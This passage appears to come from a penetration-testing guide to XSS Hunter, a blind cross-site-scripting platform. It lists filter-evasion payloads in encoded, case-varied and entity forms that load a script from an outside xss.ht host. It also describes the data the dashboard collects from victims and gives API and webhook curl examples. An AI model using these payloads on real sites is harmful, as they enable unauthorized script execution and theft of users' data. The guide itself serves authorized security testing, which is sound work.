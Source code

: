 ### Filter Evasion
```javascript
// Encoding variations
%22%3E%3Cscript%20src%3D%22https://yoursubdomain.xss.ht%22%3E%3C/script%3E

// Case variations
"><ScRiPt SrC="https://yoursubdomain.xss.ht"></ScRiPt>

// Unicode variations
"><script src="https://yoursubdomain.xss.ht"></script>

// HTML entity variations
&quot;&gt;&lt;script src=&quot;https://yoursubdomain.xss.ht&quot;&gt;&lt;/script&gt;
```

## Reporting and Analysis

### Dashboard Features
- Real-time payload execution alerts
- Detailed execution context
- Screenshot capture
- DOM content collection
- Browser fingerprinting
- Geolocation data
- Network information

### API Access
```bash
# Get collected data via API
curl -H "Authorization: Bearer YOUR_API_KEY" \
     "https://xsshunter.com/api/payloads"

# Webhook integration
curl -X POST "https://your-webhook-url.com/xss-alert" \
     -H "Content-Type: application/json" \
     -d '{"payload_id": "123", "victim_ip": "1.2.3.4"}'
```

## Best Practices

### Responsible Testing
1. Only test on authorized applications
2. Use unique identifiers for each test
3. Set appropriate expiration times
4. Minimize data collection to necessary items
5. Secure collected data appropriately

### Operational Security
1. Use dedicated subdomains for each client
2. Implement proper access controls
3. Monitor for unauthorized payload usage
4. Regular security updates and patches
5. Proper logging and audit trails

Powerful platform for comprehensive XSS detection, especially effective for identifying blind XSS vulnerabilities in complex applications.
